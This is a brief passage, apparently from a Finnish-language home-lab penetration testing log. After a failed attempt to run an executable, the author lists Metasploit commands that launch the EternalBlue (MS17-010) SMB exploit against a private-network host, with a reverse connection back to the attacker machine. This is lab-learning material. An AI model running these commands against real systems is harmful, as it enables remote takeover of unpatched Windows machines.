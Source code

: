 ![alt text](image-43.png)

MASSIIVINEN pettymys.

Se ei vaan voi yksinkertaisesti pyörittää tuota exe -tiedostoa. Päätin kokeilla eternalblueta.

```
use exploit/windows/smb/ms17_010_eternalblue
set rhost 192.168.56.102
set lhost 192.168.56.101
set lport 4321
run
```
